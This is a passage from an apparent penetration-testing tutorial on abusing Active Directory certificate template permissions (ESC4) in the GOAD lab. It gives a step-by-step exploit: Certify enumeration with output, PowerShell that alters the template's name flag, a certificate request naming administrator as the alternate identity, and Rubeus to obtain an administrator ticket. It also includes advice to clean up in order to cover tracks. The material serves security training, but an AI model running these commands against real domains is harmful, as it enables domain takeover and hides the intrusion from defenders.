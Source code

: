 ### Exploitation Strategy

Here's how the attack works:
1. Find templates where you have dangerous permissions (WriteProperty or WriteOwner)
2. Modify the template to make it vulnerable to ESC1
3. Exploit the newly vulnerable template
4. Clean up your modifications to cover your tracks

### Practical Implementation

Let's see what we can modify in GOAD. Find templates with vulnerable ACLs:

```bash
Certify.exe find /vulnerable

[!] Vulnerable Certificates Templates :

    CA Name                       : braavos.essos.local\ESSOS-CA
    Template Name                 : ESC4
    Schema Version                : 2
    Validity Period               : 1 year
    Renewal Period                : 6 weeks
    msPKI-Certificate-Name-Flag   : 0x0
    mspki-enrollment-flag         : INCLUDE_SYMMETRIC_ALGORITHMS, PUBLISH_TO_DS
    Authorized Signatures Required: 0
    pkiextendedkeyusage           : Client Authentication
    Permissions
      Enrollment Permissions
        Enrollment Rights           : ESSOS\Domain Users                    Access: Allow
      Object Control Permissions
        Owner                       : ESSOS\Administrator
        WriteProperty Principals    : ESSOS\khal.drogo                     Access: Allow
        WriteDacl Principals        : ESSOS\Administrator

# First, backup original template settings for cleanup
Get-ADObject "CN=ESC4,CN=Certificate Templates,CN=Public Key Services,CN=Services,CN=Configuration,DC=essos,DC=local" -Properties * | Select-Object * | Export-Clixml ESC4-backup.xml

# Modify template to enable ENROLLEE_SUPPLIES_SUBJECT
$template = Get-ADObject "CN=ESC4,CN=Certificate Templates,CN=Public Key Services,CN=Services,CN=Configuration,DC=essos,DC=local"
Set-ADObject $template.DistinguishedName -Replace @{"msPKI-Certificate-Name-Flag"=1}

[*] Template ESC4 modified to enable ENROLLEE_SUPPLIES_SUBJECT

# Wait for AD replication
Start-Sleep -Seconds 30

# Request certificate with arbitrary SAN
Certify.exe request /ca:braavos.essos.local\ESSOS-CA /template:ESC4 /altname:upn:administrator@essos.local

[*] Action: Request a Certificates
[*] Current user context    : ESSOS\khal.drogo
[*] Template                : ESC4
[*] Subject                 : CN=khal.drogo, CN=Users, DC=essos, DC=local
[*] AltName                 : administrator@essos.local

[*] Certificate Authority   : braavos.essos.local\ESSOS-CA
[*] CA Response             : The certificate has been issued.
[*] Request ID              : 11

# Authenticate as administrator
Rubeus.exe asktgt /user:administrator /certificate:admin.pfx
```